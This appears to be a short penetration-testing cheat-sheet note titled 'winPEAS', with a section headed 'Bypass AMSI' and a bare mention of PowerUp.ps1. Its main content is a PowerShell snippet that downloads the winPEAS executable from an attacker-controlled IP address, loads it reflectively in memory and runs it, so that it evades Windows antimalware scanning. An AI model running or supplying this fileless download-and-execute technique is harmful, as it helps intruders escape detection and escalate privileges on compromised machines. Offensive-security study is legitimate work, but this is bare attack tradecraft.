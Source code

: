 # winPEAS

## Bypass AMSI

```csharp
$ass = (new-object net.webclient).DownloadData('http://192.168.49.99/tools/winPEASx64.exe')
$assem = [System.Reflection.Assembly]::Load($ass)
[WinPEAS.Program]::main("")
```



PowerUp.ps1

